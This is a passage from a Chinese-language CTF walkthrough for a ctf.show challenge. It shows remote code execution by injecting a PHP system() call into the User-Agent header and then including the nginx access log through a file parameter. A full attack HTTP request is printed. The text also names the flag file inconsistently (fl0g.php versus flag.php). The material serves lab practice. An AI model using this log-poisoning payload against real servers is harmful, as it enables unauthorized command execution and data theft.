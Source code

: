 <figure><img src="../.gitbook/assets/image (38) (1).png" alt=""><figcaption></figcaption></figure>

可以看到我们的代码起作用了，后面显示了我们当前目录下的文件，有fl0g.php。我们接下来只要查看flag.php的源代码就可以了，直接cat flag.php,

这里介绍一个指令可以直接把文件的以base64编码的形式输出

```sh
base64 file
```

所以我们最后的头部的结果就是

```http
GET /?file=/var/log/nginx/access.log HTTP/1.1
Host: ed2a102a-36b7-4969-b43f-eac4d7abef51.challenge.ctf.show
User-Agent: <?php system('cat fl0g.php');?>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Upgrade-Insecure-Requests: 1


```
